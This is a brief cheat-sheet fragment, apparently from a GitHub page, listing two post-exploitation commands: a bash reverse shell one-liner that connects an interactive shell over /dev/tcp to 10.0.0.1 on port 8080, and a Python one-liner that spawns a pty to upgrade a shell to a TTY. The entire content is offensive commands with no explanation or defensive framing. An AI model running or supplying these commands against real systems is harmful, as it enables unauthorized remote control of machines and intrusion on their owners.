 Bash RevShell
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Python TTY
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

